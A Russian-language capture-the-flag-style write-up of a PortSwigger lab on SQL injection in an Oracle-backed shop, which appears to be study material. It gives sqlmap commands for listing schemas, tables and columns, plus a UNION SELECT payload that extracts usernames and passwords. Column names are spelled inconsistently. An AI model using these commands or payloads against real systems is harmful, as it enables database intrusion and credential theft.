





# SQL injection attack, listing the database contents on Oracle

**Сложность:** Practitioner  
**Тема:** SQL-Injection  
**Ссылка:** [PortSwigger](https://portswigger.net/web-security/sql-injection/examining-the-database/lab-listing-database-contents-oracle)  

## 1. Описание уязвимости

Эта лаборатория содержит уязвимость инъекций SQL в фильтре категории продукта. Результаты запроса возвращаются в ответе приложения. Необходимо определить название этой таблицы и содержащиеся в ней столбцы, а затем извлечь содержимое таблицы, чтобы получить имя пользователя и пароль всех пользователей.

---

## 2. Разведка

Тотже самый сайт-магазин, с выбором категорий, так же можно заходить в аккаунт, при выборе категории обратил внимание на URL.

---

## 3. Ход решения

Важно заметить, что Oracle - другая логика. В Oracle нет `information_schema.`, вместо нее - `all_tables` и `all_tab_columns`. Использую `sqlmap` с таким запросом: `sqlmap -u "https://0a17003e036132ab830e29b4009a0007.web-security-academy.net/filter?category=Lifestyle" -dbs`, посмотрим на вывод:

Здесь можно заметить, что столбцов - 2, СУДБ - Oracle, как и говорилось в описании лабораторной, схемы: `APEX_040000`, `CTXSYS`, `MDSYS`, `PETER`, `SYS`, `SYSTEM`, `XDB`. Теперь попробуем такой запрос: `sqlmap -u "https://0a17003e036132ab830e29b4009a0007.web-security-academy.net/filter?category=Lifestyle" --batch -D PETER --tables`:

Далее я таким запросом узнал содержимые колонны в таблице PETER: `sqlmap -u "https://0a17003e036132ab830e29b4009a0007.web-security-academy.net/filter?category=Lifestyle" --batch -D PETER -T USERS_SUFABT --columns`:

Дальше обратимся в BurpSuite. Мы знаем о столбцах `PASSWORD_MVRMVT` и `USERS_IXVRFM`, и где они находятся, поэтому мы можем перехватить запрос через BurpSuite и изменить его на такой:`'+UNION+SELECT+PASSWORD_MVRMVT,USERNAME_IXVRMF+FROM+USERS_SUFABT--`. посмотрим на результат:

После подстановки логина и пароля администратора, лабораторная считается пройденной.

